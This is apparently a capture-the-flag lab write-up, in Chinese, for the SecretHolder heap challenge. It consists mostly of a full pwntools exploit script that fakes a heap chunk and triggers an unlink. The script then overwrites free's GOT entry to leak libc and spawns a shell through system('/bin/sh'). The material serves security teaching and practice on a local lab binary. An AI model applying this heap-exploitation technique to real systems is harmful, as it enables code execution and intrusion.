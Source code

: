 # SecretHolder

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```
